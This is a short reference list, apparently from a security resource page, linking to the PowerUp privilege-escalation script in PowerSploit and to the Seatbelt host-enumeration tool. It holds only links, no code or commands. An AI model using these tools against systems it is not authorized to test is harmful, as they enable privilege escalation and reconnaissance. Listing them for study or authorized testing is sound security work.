- PowerSploit PowerUp: [https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
- Seatbelt: [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)
